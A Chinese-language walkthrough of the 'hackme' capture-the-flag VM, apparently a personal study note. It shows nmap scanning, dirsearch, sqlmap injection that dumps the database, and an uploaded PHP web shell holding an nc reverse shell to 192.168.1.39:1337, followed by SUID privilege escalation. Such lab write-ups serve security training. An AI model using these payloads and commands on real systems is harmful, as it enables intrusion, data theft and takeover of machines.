  # hackme  
 ## 信息收集&&发现  
 查询ip地址  
 ```
 nmap -PR 192.168.1.* 
 ``` 
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205165057.png)  
 查询开放的端口  
 ```
 nmap -p 1-65535 ip 
 ```  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205165219.png)  
 
 登录上去之后发现是一个php网站，一来就需要我们输入密码，这个时候考虑弱密码和sql注入的问题，但是为了收集信息我们还是先对目录进行爆破  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205165438.png)  
 ```
python3 dirsearch.py -e php -u 192.168.1.61
 ```  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205165819.png)
 访问其中的uploads文件夹发现
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205170109.png)  
 考虑是否存在文件读取的漏洞？  
 再访问注册页面发现可以进行注册，注册一个用户之后发现存在一个搜索框，是否存在sql注入漏洞呢？   
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205170402.png)  
 果然存在sql注入  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205171008.png)
 ```
sqlmap -r X -p search --current-db --batch  当前的数据库
sqlmap -r X -p search --dbs --batch 所有的数据库 
sqlmap -r X -p  search -D webapphacking --dump-all --batch 将数据库当中的所有数据dump出来  
 ```  
 dump之后的结果
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205171632.png)  
 注意到其中有一个superadmin 但是没有提示密码  
 所以我们这里存在三种途径  
 1. 继续使用sql 写进shell  
 2.查询superadmin的密码 
 3.使用现在有的密码登录webapp或者ssh
 
 先尝试了3 发现现有的用户并不能登录ssh，或者登录webapp之后并没其他好的权限   
```
 python3 dirsearch.py -u 192.168.1.61 -c PHPSESSID=xxx  -e php 带上cookie进行扫描
``` 
得到的结果发现存在  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205173454.png)
猜想403是权限不够进行查看，是否是superadmin才能进行查看？  

 尝试2  
 破解密码发现实在是没有破解出来  
 哦，原来当时看到的结果是 
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205181212.png)
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205181611.png)
 真坑啊！！！我当时以为是不能破解！！！！
 得到密码之后，登录并上传shell文件，文件当中的内容为  
 ```
 <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.39 1337 >/tmp/f');?>
 ```   
  然后nc进行监听  
 返回一个普通的权限  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205182708.png)
 ### 提权
获取交互式的shell  
 ```
 python3 -c 'import pty; pty.spawn("/bin/bash")'
 ```  
 使用python获取交互式的shell  
 
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205222621.png)  
 ```
  find / -perm -u=s -type f 2>/dev/null 查询特殊的权限  
 ``` 
 直接拿到root权限
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205224426.png)
 尝试1 
 看看是否是属于dba权限  
 ```
 sqlmap -r X -p search --is-dba
sqlmap -r X -p search --current-user
 ```  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200205174653.png)  
 发现数据库用户的权限很高，可以考虑使用os-shell  
 
 ## 总结  
 目录扫描  
 sqlmap的基础使用  
 查找特权指令  
 